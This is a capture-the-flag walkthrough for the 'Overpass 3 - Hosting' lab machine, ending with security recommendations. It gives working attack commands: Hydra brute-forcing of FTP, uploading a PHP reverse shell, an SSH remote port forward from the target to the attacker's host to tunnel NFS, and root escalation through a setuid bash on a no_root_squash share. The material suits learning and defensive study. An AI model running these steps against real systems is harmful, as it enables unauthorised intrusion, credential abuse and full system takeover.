



# Overpass 3 - Hosting

- [Overpass 3 - Hosting](#overpass-3---hosting)
  - [Overview](#overview)
  - [Service Enumeration](#service-enumeration)
  - [Low-Privilege Access](#low-privilege-access)
  - [Root Access](#root-access)
  - [Findings and Recommendations](#findings-and-recommendations)

## Overview
Walkthrough for Overpass 3 - Hosting: web, user, and root flags.

*Note: The Server IP will be different in some screenshots.*

## Service Enumeration
A port scan reveals the machine is running FTP, SSH, and a web server.

 <br>

Navigating to `http://10.10.167.189` brings us to the Overpass homepage.

 <br>

Start a web directory scan.
```
feroxbuster -u http://10.10.167.189 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -k -n -r -t 75 --smart
```

While the scan runs, look around the site.

Nothing sticks out.

Luckily, the scan found a page with an interesting file: `/backups/backup.zip`.

 <br>

## Low-Privilege Access
> Contains web and user flags
Download and unzip `backup.zip`.
```
wget http://10.10.167.189/backups/backup.zip
unzip backup.zip
```

There will be two new files:
1. `CustomerDetails.xlsx.gpg`
2. `priv.key`

 <br>

The spreadsheet is encrypted but it looks like we have a private key that could be used to decrypt it.

Import the private key.
```
gpg import priv.key
```

 <br>

Use the key to unlock the spreadsheet. GPG will print out info about the key and encrypted file but they are not errors.
```
gpg --decrypt --output CustomerDetails.xlsx --recipient C9AE71AB3180BC08 CustomerDetails.xlsx.gpg
```

 <br>

Open the spreadsheet to find usernames and passwords. Place these into a file.

Attempt to bruteforce SSH using Hydra.
```
hydra -L users-customerdetails.txt -P passwords-customerdetails.txt -e nsr -f -u -t 8 ssh://10.10.167.189
```

 <br>

It fails - passwords logins are not supported.

Attempt to bruteforce FTP.
```
hydra -L users-customerdetails.txt -P passwords-customerdetails.txt -e nsr -f -u -t 8 ftp://10.10.167.189
```

 <br>

Success! Login to the FTP server as paradox.

```
ftp paradox@10.10.167.189
```

The directory looks similar to the web server.

 <br>

Confirm write access by creating a test file and uploading it.
```
echo hello > testfile.txt
put testfile.txt
```

 <br>

Go to `http://10.10.167.189/testfile.txt` and confirm the file shows up there.

 <br>

Fantastic - let's try grab and configure a PHP reverse shell! :D
```
cp /usr/share/webshells/php/php-reverse-shell.php rshell1.php
```

 <br>

Upload it via FTP and start a Netcat listener.

Launch the reverse shell by going to `http://10.10.167.189/rshell1.php` and gain access as `apache`.

 <br>

The web flag is found at `/usr/share/httpd/web.flag`.

According to `/etc/passwd`, the users `james` and `paradox` are on the system.

 <br>

Upgrade to an interactive shell (properly displays user prompts) and login as `paradox` using the password from the spreadsheet.

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
su paradox
```

 <br>

After poking around, it may be apparent that some commands don't work. Checking `$PATH` reveals some expected entries; this isn't a big issue, it just means we'll have to specify the full path. 

 <br>

`/bin` and `/sbin` are also mapped to `/usr/bin` and `/usr/sbin`, further limiting access.

 <br>

The NFS configuration at `/etc/exports` show we may be able to mount and access `/home/james` as a network share.

 <br>

Verify the NFS service is running.
```
/usr/sbin/ss -atp
```

 <br>

NFS is TCP 2049 and mountd is TCP 20048. This can be confirmed with rpcinfo. Both ports are needed for us to mount `/home/james` as an NFS share.
```
rpcinfo -p
```

 <br>

This means we may have remote access to the `/home/james` directory. However, these ports did not show up in the port scan, so they may be blocked. Logging into SSH as `paradox` also doesn't work which rules out a local port forward. 

But what if we started the SSH connection from the server back to our attacking machine and do a [remote port forward](https://confluence.crbs.ucsd.edu/display/CRBS/SSH+tunnel+NFS+share)?

On the server, create a new SSH keypair with a blank passphrase. The example filename used is `is_rsa_kera`.
```
ssh-keygen
/home/paradox/.ssh/id_rsa_kera
```

 <br>

Copy the contents of the public key (/home/paradox/.ssh/id_rsa_kera.pub) and save it to the `~/.ssh/authorized_keys` on the attacking machine. Here is an example entry:

```
from="<SERVER IP>",command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa <PUBLIC KEY>
```

 <br>

Start an SSH server on the attacking machine.

From the server, start an SSH connection to the attacking machine, doing a remote port forward for NFS and mountd.

```
ssh -f -N \
-R 10.13.34.103:2222:127.0.0.1:2049 \
-R 10.13.34.103:2223:127.0.0.1:20048 \
-i ~/.ssh/id_rsa_kera kera@10.13.34.103 
```

 <br>

The port mappings used in the example are:
- *Attack Machine:2222 <-> Overpass:2049* - nfs
- *Attack Machine:2223 <-> Overpass:20048* - mountd

This means traffic sent to our attack machine on *TCP 2222* will travel over SSH and arrive at the server on *TCP 2049*, bypassing filters that were preventing our direct connection. Same goes for *TCP 2223* and *TCP 20048*.

On the attacking machine, create a local mount point and mount the remote share.
```
sudo mkdir /mnt/james
sudo mount -t nfs -o tcp,port=2222 127.0.0.1:/home/james /mnt/james
```

 <br>

The user flag is found at `/mnt/james/user.flag`.

## Root Access
Our NFS share was configured with the `no_root_squash` option. This post from [thegeekdiary](https://www.thegeekdiary.com/basic-nfs-security-nfs-no_root_squash-and-suid/) explains that *root_squash* is a feature that prevents the NFS client (our attack machine) from accessing files as root. With this option turned off, we can modify files on `/home/james` as root.

 <br>

On the server (as `james`), make a copy of bash.
```
cp /bin/bash /home/james/bash
```

On the attacking machine, transfer ownership of bash to root and configure setuid. [Steflan](https://steflan-security.com/linux-privilege-escalation-exploiting-nfs-shares/) provides clear instructions on how to do this.
```
cd /mnt/james
sudo chown root:root bash
sudo chmod +s bash
```

 <br>

On the attacking machine, launch this copy of bash with the `-p` flag to keep the root permissions.
```
./bash -p
```

 <br>

The flag is found at `/root/root.flag`.

## Findings and Recommendations
**Unsecured Backups**

Customer information and user passwords were obtained via publicly available backup files obtained on the web server. Apply strict access controls to backups and other sensitive information and store them in a sepa-rate location.

**Unsecured Credentials**

Ensure that private keys are stored in a secure location and are protected with a strong passphrase. A private GPG key, found in the same location as the backups, was used to decrypt the files. A private SSH key was also used during the privilege escalation process. Both did not require a password. 

While it could not be used for SSH, the password for `paradox` found in the customer information was used for FTP and local Linux access. If possible, avoid reusing passwords and try to enable multi-factor authentication.

**Insecure Network Share Permissions**

Insecure NFS permissions allowed remote access to `/home/james` and escalation to `root`. While network controls prevented direct NFS connections, having access to `paradox` allowed NFS to be sent over SSH, bypassing these controls. Specify allowed networks in the configuration and remove the `no_root_squash` option to prevent root access.